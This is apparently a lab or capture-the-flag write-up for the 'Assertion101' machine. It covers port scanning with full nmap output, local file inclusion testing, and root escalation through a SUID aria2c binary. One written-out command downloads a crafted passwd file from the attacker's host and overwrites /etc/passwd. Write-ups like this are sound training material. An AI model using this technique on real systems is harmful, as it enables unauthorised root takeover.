 ```yaml
---
title: "Assertion101"
date: 2024-11-03T10:24:00
draft: false
tags: ["LFI", "SUID exploitation"]
---
```


Recon :

a quick rustscan to find open ports on the target

![Image 1](/images/1.png)

Scanning :  
then a nmap scan for banner grabbing for the open ports

![Image 2](/images/2.png)

Enumeration : 

From the nmap scan, we could deduce that OS runs Linux and specifically.
```# Nmap 7.94SVN scan initiated Thu Oct 24 18:25:45 2024 as: /usr/lib/nmap/nmap -p 22,80 -sCV -oN assertion.txt 192.168.170.94
Nmap scan report for 192.168.170.94
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Assertion
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 24 18:25:54 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```


There is an Apache web server running, would enumerate it.

The website is about fitness. 

![Image 3](/images/3.png)

Fuzzing for hidden endpoints 

![Image 4](/images/4.png)

/pages shows this PHP files.

![Image 5](/images/5.png)

From the main page, clicked on the about-us 

![Image 6](/images/6.png)

Test for LFI  
![Image 7](/images/7.png)

Using payload of `/etc/passwd`, there is an error "file does not exist"

Could try other payloads or automate it by fuzzing.. 

While manually trying different payloads and methodologies, the box creator sends us messages.. 

Will continue testing..

Tried everything I knew but was futile, reading over StackOverflow, someone talked about this attack, 

Simple detailed explanation on how it works.. 

![Image 8](/images/8.png)

Going 1 step from the HTML directory, the `local.txt` file 

![Image 9](/images/9.png)

Next, to attempt privilege escalation to the user..

Importing linpeas 

![Image 10](/images/10.png)

There is an unknown binary, will enumerate more..

![Image 11](/images/11.png)

Great

![Image 12](/images/12.png)

The `/usr/bin/aria2c` executable, which is a command line download utility. We can use it to overwrite some important files. For example, we can use it to overwrite the root’s `authorized_keys` file.

It can be used to read files as well or 

![Image 13](/images/13.png)

Read it normally..  
![Image 14](/images/14.png)

In this scenario, will copy the existing `passwd` file and add a new user with root rights and copy to the target to the `/etc` directory using the aria2c binary.

![Image 15](/images/15.png)

`/usr/bin/aria2c -o passwd "http://192.168.45.219:8000/newpass" --allow-overwrite=true
`

![Image 16](/images/16.png)

Then switch user to Tom and enter the password (`Password@973`)

![Image 17](/images/17.png)

Got the last flag.. 

Thanks for reading..
